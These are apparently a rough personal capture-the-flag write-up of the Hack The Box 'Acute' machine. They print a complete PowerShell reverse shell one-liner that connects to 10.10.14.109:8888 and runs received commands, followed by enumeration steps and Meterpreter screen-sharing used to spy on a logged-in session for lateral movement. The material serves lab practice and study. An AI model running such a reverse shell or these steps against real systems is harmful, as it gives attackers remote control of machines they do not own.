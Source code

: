 Why is this there, my eyelids have icacls.exe icacls.exe under each. 
![](icalcstheutils.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.109',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](runningontotherevshell.png)

## Enumeration

```powershell
get-process 
# What is weird - Our Context - PS
explorer
msedge
WmiPrvSE
# The above indicate interactive logon sessions
```

![](getcomputerinfo.png)

Check for remote desktop users
![](qwinstaWIN.png)

Feels good to know about `set`, but not good to not 2 is 1 the box... Learnt `dir env:`
![](direnv.png)
Then my LOLSBAS started failing... 
Given the `hostname` is `Acute-PC01` and the DC = `\\ATSSERVER`, which is the logon server, *but* becuase we have no external DC ports we must be in some kind of virtual environment. After a some fubbling around and a break. After following alond with meterpreter session [Alh4zr3d](https://www.youtube.com/@alh4zr3d3) screenshots presummable remembering that there is a console session on the machine with explorer.exe open for the lateral movement on this box. At this point given my concern about how this could be done without metasploit I proceeded to check other Writeups of this box. [0xdf](https://0xdf.gitlab.io/2022/07/16/htb-acute.html) uses meterpreter. Amusing returning to this part of writing this the odds of screenshotting at the exact moment that the entire lsit of powershell commands run by the scripted user is kind of mind boggling. It runs in a 1 minute loop. And to get the part where it use the `dc_manage` configuration before *immediately* closing the window is bonkers.

```ruby
# Meterpreter has a powershell module
load powershell 
screenshare 
```

![](usersonbox.png)
